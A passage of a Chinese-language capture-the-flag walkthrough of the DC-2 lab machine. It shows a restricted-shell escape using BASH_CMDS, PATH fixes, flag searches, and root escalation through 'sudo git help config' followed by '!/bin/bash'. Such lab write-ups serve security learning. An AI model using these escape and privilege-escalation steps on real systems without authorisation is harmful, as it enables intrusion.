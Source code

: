 ![26.png](https://img.picui.cn/free/2024/07/02/6683d9600e95c.png)

WAY2：**BASH _CMDS设置shell**

『`注意` 』将DC-2恢复快照重新测试

方法如下：

```
BASH_CMDS[x]=/bin/bash		#设置一个x变量作为 shell

x		# x变量，相当于执行 shell
```

![27.png](https://img.picui.cn/free/2024/07/02/6683d9610eab5.png)

现在已成功升级为bash，无法执行 whoami 命令是因为环境变量的问题，用以下命令添加完整的命令集即可：

> **export PATH=$PATH:/bin/**
>
> **export PATH=$PATH:/usr/bin/**

![26.png](https://img.picui.cn/free/2024/07/02/6683d9600e95c.png)

提升权限后，我们尝试寻找flag的提示，这里找到了flag3文件，提示信息说可以通过su jerry来找到后续的渗透思路。

![28.png](https://img.picui.cn/free/2024/07/02/6683d9612a6ef.png)

登入jerry账号后，继续寻找flag，成功发现了flag4，提示了我们需要git提权。

```
find / -name *flag*
```

![29.png](https://img.picui.cn/free/2024/07/02/6683d962d644e.png)

![30.png](https://img.picui.cn/free/2024/07/02/6683d9639f08c.png)

![31.png](https://img.picui.cn/free/2024/07/02/6683d9644bbcf.png)

![32.png](https://img.picui.cn/free/2024/07/02/6683d96553e56.png)

###### ②git提权

way1：

> 1. **sudo git help config**
> 2. 回车输入
> 3. !/bin/bash （这里bash也可以换成sh）

way2：

> 1. **sudo git -p help**
> 2. 回车输入
> 3. !/bin/bash （这里bash也可以换成sh）

![33.png](https://img.picui.cn/free/2024/07/02/6683d96592643.png)

![34.png](https://img.picui.cn/free/2024/07/02/6683ded929c66.png)

#### 4、获得flag

```
cd /

find / -name *flag*
```

![35.png](https://img.picui.cn/free/2024/07/02/6683ded9eb099.png)

